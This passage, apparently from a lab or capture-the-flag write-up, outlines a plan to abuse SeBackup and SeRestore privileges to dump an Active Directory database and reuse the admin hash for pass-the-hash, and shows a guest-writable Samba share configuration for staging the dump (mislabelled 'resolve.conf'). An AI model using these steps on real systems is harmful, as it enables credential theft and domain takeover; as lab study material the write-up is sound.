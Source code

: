 <figure><img src="../../../../.gitbook/assets/image (939).png" alt=""><figcaption></figcaption></figure>

So we first need to gain admin privileges before we want to read anything, we'll start by configuring a samaba server with auth in order to abuse SeBackup and SeRestore privileges to dum AD DB in an attempt to use the admin hash to performe PtH ->

In resolve.conf file we add the following ->

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    interfaces = tun0
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```
